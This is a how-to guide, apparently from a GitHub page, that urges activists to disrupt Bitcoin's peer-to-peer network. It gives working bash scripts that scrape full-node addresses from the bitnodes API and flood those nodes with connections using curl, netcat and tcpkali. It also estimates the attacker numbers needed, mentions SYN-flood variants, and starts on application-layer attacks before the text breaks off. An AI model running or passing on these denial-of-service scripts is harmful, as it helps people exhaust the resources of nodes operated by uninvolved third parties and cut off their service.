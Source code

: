 # Cancelling Bitcoin - Definitive How To guide
## TLDR
Bitcoin wastes immense amounts of energy. It's community is complicit with crime and uses divisive marketing tactics. This poses great risk of backlash from the rest of society, using the methods described below to create long running outages of Bitcoin's network and/or network splits that may cause transactions to be rolled back. Since no one wants to have their assets sieged at will by an angry mob, this situation jeopardizes Bitcoin's price. Many professionals are aware and have been warning about these issues. Hackers would like to keep the following information out of sight because it might kill their ransomware golden goose.

## Overview

Bitcoin does not have access control mechanism, this is touted as a feature, allowing anyone with internet access to participate in various ways. Send & receive transactions or submit & receive information about the other participants in the network. The open nature of the network is in fact it's achilles heel because activists can flood the network with garbage information and consume all of it's availabe resources. Every network and computer system has limited resources such as bandwidth, memory and computing power. In order to estimate the risk, we need to estimate the different capacities in the system and find the ones that are the easiest to overwhelm. Proper modern deployments use the cloud to automatically scale resources according to need, this would make the network much harder to attack while exposing the fallacy behind decentralization claims.

## Estimating networks capacity
The myth that Bitcoin's network has massive capacities relies on technical slight of hand. The network is comprised of three different nodes which contribute and consume different resources to the network.

1. Full Nodes - These are distributed data stores backed by Level DB. They provide services of data query & propagation.
2. Wallet Nodes - These are typically short lived nodes, they do not store the full database of around 360GB at the time of writing. These nodes do not publish "NETWORK_NODE" bit to to inform other participants of their limited capacity. 
3. Miner Nodes - These nodes encompass the majority of resources of the network. Since mining is done in private these are not a target for crowd sourced attack and are irrelevant for the purpose of this article.

It is important to note that adding mining resources to bitcoin is rewarded by design while adding distributed database nodes is not rewarded at all. It should surprise no one that as mining network scaled, the resouces for the distributed database node have been starved of resources. For a reasonable attacker miners and their separate network are irrelevant.

### Full-node resources
Many are aware of block size wars, where Bitcoin's development team chose to limit the resources needed from each full node in order to lower the barriers for entry for full nodes. There are other limitations in the reference full node implemenation. Limiting node's capacity makes each node vulnerable to various denial of services attacks. Some of the [capacities](https://github.com/bitcoin/bitcoin/blob/55a156fca08713b020aafef91f40df8ce4bc3cae/src/net.h) of Full Nodes are:
1. Networking
   1. [125](https://github.com/bitcoin/bitcoin/blob/55a156fca08713b020aafef91f40df8ce4bc3cae/src/net.h#L72) simultanous peer connections
   1. [11/125](https://github.com/bitcoin/bitcoin/blob/55a156fca08713b020aafef91f40df8ce4bc3cae/src/net.h#L64-L68) Are for outgoing connections
   1. [1/125](https://github.com/bitcoin/bitcoin/blob/55a156fca08713b020aafef91f40df8ce4bc3cae/src/net.h#L68) "Feeler" connection to test availability of new nodes
1. Address Manager
   1. 1024 "[buckets](https://github.com/bitcoin/bitcoin/blob/55a156fca08713b020aafef91f40df8ce4bc3cae/src/addrman.h#L130)" for storing information about new nodes 
   1. 256 "[buckets](https://github.com/bitcoin/bitcoin/blob/55a156fca08713b020aafef91f40df8ce4bc3cae/src/addrman.h#L130)" for storing information about nodes that had been reached
   1. 64 entries in each [bucket](https://github.com/bitcoin/bitcoin/blob/55a156fca08713b020aafef91f40df8ce4bc3cae/src/addrman.h#L133)
   2. Publicly accessible [services](https://github.com/bitcoin/bitcoin/blob/55a156fca08713b020aafef91f40df8ce4bc3cae/src/addrman.cpp#L288) attribute for each new node

As we shall see, any of these limitations is subject to various attacks.

### How many full-nodes are out there?
We will write our own scraper further on, in the meantime you can look at [bitnodes.io](https://bitcoin.io) or [bitcoinstatus.net](http://bitcoinstatus.net). At the moment of writing, I can reach 5500 nodes that advertise themselves as full nodes using [NODE_NETWORK](https://github.com/bitcoin/bitcoin/blob/b34bf2b42caaee7c8714c1229e877128916d914a/src/protocol.h#L276) bit.
Bitnodes shows me 8500 because it considers nodes active if they are reachable in the recent past, some are just wallet software that only relays information. You can try it yourself. The following command uses [bitnodes api](https://bitnodes.io/api/) to get the latest list of nodes, we parse it using ruby, then count how many have their "services" field on.
```bash
curl -H "Accept: application/json; indent=4" https://bitnodes.io/api/v1/snapshots/latest/ |\
 ruby -e 'require("json"); puts JSON.parse(ARGF.read())["nodes"].values.count{|a| a[3] % 2 == 1}'
 ```
 For later usage, let's save the following file as targets.sh and set +x flag.
```bash
#!/bin/bash

  # get latest nodes
curl -H "Accept: application/json; indent=4" https://bitnodes.io/api/v1/snapshots/latest/ |\
  # pattern for node's keys
  egrep "\[\$" |\
  # remove onion addresses
  grep -v "onion" |\
  # select the inside of quoted string
  cut -d'"' -f 2 |\
  # remove ipv6 notation markers
  tr -d '[]
````
In order to test which ipv4 nodes are availabe an attacker could use the following bash script
```bash
#!/bin/bash
tmpfile=$(mktemp)
count=0
timeout=60
for target in $(./targets.sh); do
  curl -m $timeout --connect-timeout $timeout $target > /dev/null 2>> $tmpfile &
  count=$((count+1))
  sleep 0.005 # ~200 connections per second
done
wait
echo Reached $(grep -c "Empty reply from server" $tmpfile)/$count nodes
rm $tmpfile
````
This scripts counts how many of the nodes are responding to an http requests by closing the connection with an empty reply as the official full node software does. 

#### A trivial attack
At 200 connections per second, the script above would take about 2 minutes to scan the whole range. An attacker of course could use higher rate to tax the network. Since the network has about 7k-8k available nodes, the incoming connection capacity of the network is about 114 * 8,000, roughly 900,000. That means that 900 activists using this trivial script at a pace of 1000 connections per second continously could consume much of the incoming connection capacity of the whole network.
This style of attack is not sophisticated, yet at scale it could be highly effective.

#### One level up
The first script uses curl to make http request, the server recognizes we are not communicating using the correct protocol and closes the connection quickly freeing up resources such as entries in the connection table. In order to make the attack more effective we can keep the connection open without sending anything, this would consume more resources over time while the server is waiting for a "version" message that never arrives. To run this example you need netcat utility. Running `./max_connections.sh 2000` would try to keep 2000 connections open.

```bash
#!/bin/bash
max_connections=$1

while [ $(ps --no-headers -o pid --ppid=$$ | wc -w) -lt "$max_connections" ]; do
  for target in $(./targets.sh); do
    port=$(echo $target | rev | cut -d":" -f1 | rev)
    ip=$(echo $target | rev | cut -d":" -f2-20 | rev)
    echo connecting to $ip $port
    nc $ip $port > /dev/null&

    while [ $(ps --no-headers -o pid --ppid=$$ | wc -w) -gt "$max_connections" ]; do
      sleep 1
    done
  done
done
```

#### More effective tools
Running operating system process for each connection is very inefficient. There are purpose built tools that can generate many connections very efficiently. This example uses [tcpkali](https://github.com/satori-com/tcpkali). Please note this system [configuration](https://github.com/satori-com/tcpkali/blob/master/doc/tcpkali.man.md#see-also) is needed to allow a machine to generate up to 55000 connections per interface. 
```bash
tcpkali --connect-rate 500 --duration=1200 --connections 20000 $(./targets.sh)
```
I have a full node running on my dev environment for testing. It is configured not to communicate with the rest of the Bitcoin's network. When i ran tcp kali connection loading it easily pegged two cores at 100%. It could also be run with one milisecond timeout in order to simulate a SYN flood and fill target's connection tables.

### L7 attacks
While the tools above are enough for activists to create outages. Bitcoin has many vulnerabilities in the application layer too. Since the protocol is not encrypted, any party between two nodes can manipulate communication. This was done in the [past](https://www.eff.org/es/wp/packet-forgery-isps-report-comcast-affair) by ISPs in order to restrict Bittorrent. We can be sure that the DPI technology that was used to do that has advanced since inception 20 years ago. A naive solution to L7 attacks would be to block peers that spam or send garbage. The problem is ISPs, governments or even Tor exit node can perform the flagged behavior causing peers to be blocked. Bitcoin solution is to sweep all these vectors of attack under the rug and focus on hype and marketing.

#### Scraper
Connecting to a node only to ask for a list of peers they know is an integral part of the reference implementation works. When a full node has no new peers to try it uses [dns seeds](https://github.com/bitcoin/bitcoin/blob/55a156fca08713b020aafef91f40df8ce4bc3cae/src/chainparams.cpp#L121-L129) to find targets to [solicit](https://github.com/bitcoin/bitcoin/blob/55a156fca08713b020aafef91f40df8ce4bc3cae/src/net.h#L175-L178) addresses from. DNS entries are controlled by a group of unknown people that we can call Bitcoin's IT department.![image](https://user-images.githubusercontent.com/1638049/120117998-cebff680-c155-11eb-89af-d456dc631666.png)They can collude and send some wallets of their choosing to a subnetwork under their complete control but this is besides the point of this paragraph.
Activists can follow the pattern of soliciting addresses but more aggressively. Soliciting is much cheaper computationally than generating the responses so it's a more effective way of attacking the network than simply opening connections.
In order to solicit addresses a client needs to complete a proper handshake. Client connects to a server, must send a version message then wait for a similar version message from server. Then it can send several signaling messages coordinating supported features followed by verack message. Server does the same and connection is considered [SuccsefullyConnected](https://github.com/bitcoin/bitcoin/blob/55a156fca08713b020aafef91f40df8ce4bc3cae/src/net_processing.cpp#L2648). 
Latest version as of writing is 70016. Every message is wrapped in header containing magic number that indicates network (main/test etc), checksum & message size. Since the C++ code can be difficult to read, i use the python test suite for reference about message types. For example, this is how a [version message](https://github.com/bitcoin/bitcoin/blob/b34bf2b42caaee7c8714c1229e877128916d914a/test/functional/test_framework/messages.py#L1018) can be constructed.

